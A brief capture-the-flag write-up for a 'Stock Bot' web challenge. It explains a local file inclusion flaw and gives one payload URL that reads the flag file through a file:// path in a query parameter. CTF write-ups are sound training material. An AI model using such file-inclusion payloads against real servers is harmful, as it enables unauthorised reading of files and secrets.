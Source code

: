 ## Stock Bot

![img](https://i.ibb.co/TPcg0PG/Screenshot-from-2022-03-21-16-21-30.png)

## Solution:

This challenge includes LFI (Local File Inclusion) vulnerability. It fetch the data related to stock available of particular product. Also the location where the flag is present is given in the script as comment. There might be other ways to get the flag but I am injecting payload in the URL which looks like URL given below.

```
https://st0ck-b0t.vishwactf.com/Products/check.php?product=file:///opt/app-root/src/Products/Flag
```
\

![img](https://i.ibb.co/HP59t4p/image1.png)
